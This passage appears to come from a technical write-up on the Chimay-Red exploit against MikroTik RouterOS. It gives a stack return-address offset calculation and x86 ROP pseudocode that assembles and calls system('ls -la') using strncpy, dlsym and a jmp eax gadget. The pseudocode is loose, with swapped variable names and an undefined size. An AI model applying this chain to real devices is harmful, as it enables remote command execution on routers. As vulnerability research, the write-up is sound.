 
<br>

return address overwrite calculation eg:

```python
ADDR_SIZE = 8
SAFE_SPACE = 0x1000
THREAD_STACK_SIZE = 0x20000
PAYLOAD_LEN = len(payload) # 0x8000

>>> hex(((THREAD_STACK_SIZE + SAFE_SPACE + PAYLOAD_LEN) - PAYLOAD_LEN) - ((SAFE_SPACE - 0x10) & 0xFFFFFFF0) - ADDR_SIZE)
'0x20008'
```

<br>

## ROP

**Note:** I'll only be explaining the ROP technique for the x86 architecture, as explaining all the techniques would be a blog post in itself. This technique was originally discovered by GitHub user [wxsarcher](https://github.com/wsxarcher) for RouterOS `6.x` at [BigNerd's](https://github.com/BigNerd95/Chimay-Red) version of Chimay-Red. At the time of researching this vulnerability I was not aware of the efforts by BigNerd to also uncover the bug, so big props to BigNerd for being the first (that I can see) to release a working PoC for Chimay-Red! I recommend everyone go and checkout his exploit stuff for Chimay-Red as well, and if you can help him support more architectures, the project is in need of additional architecture research.

Psuedocode for technique to execute: `ls -la`

```python
system_chunks = [134512899, 134513152, 134512899, 134512854, 134514868, 134514240, 134512693]
#    ("s", "y", "s", "t", "e", "m", "\x00")
cmd_chunks = [134512885, 134512899, 134512682, 134512891, 134512885, 134516284, 134512693]
#    ("l", "s", " ", "-", "l", "a", "\x00")

writable_segment_addr = 134514680
jmp_eax = 134514248
char_size = 1

command = bytes()
char_pointer = 0
for address in system_chunks:
    command += rop.call(<strncpy>, args=(<writeable_segment_addr> + char_pointer, address, char_size))
    char_pointer += 1

system = bytes()
char_pointer = 0
for address in cmd_chunks:
    system += rop.call(<strncpy>, args=((<writeable_segment_addr> + (len(system_chunks) + addr_size) + char_pointer, address, char_size))
    char_pointer += 1

|<<<< rop.call(<dlsym>, args=(0, system))
|
|      Note: [EAX] = resultant pointer of dlsym() call
|
|>>>> rop.call(jmp_eax, args=(command,))

```

